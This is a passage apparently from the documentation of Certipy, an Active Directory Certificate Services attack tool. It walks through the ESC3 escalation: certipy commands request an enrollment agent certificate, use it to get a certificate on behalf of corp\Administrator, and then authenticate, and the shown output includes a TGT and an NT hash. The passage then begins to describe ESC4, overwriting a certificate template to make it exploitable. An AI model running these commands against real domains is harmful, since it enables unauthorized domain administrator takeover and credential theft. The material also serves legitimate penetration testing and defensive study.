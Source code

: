 ```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC3-Test
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 781
[*] Got certificate with UPN 'JOHN@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-1103'
[*] Saved certificate and private key to 'john.pfx'
```

We can then use the Certificate Request Agent certificate (`-pfx`) to request a certificate on behalf of other another user by specifying the `-on-behalf-of`. The `-on-behalf-of` parameter value must be in the form of `domain\user`, and not the FQDN of the domain, i.e. `corp` rather than `corp.local`.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -on-behalf-of 'corp\Administrator' -pfx john.pfx
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 782
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

And finally, we can use the new certificate to authenticate as `corp\Administrator`.

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

#### ESC4

ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

By default, Certipy will overwrite the configuration to make it vulnerable to ESC1. 

We can specify the `-save-old` parameter to save the old configuration, which is useful for restoring the configuration afterwards.
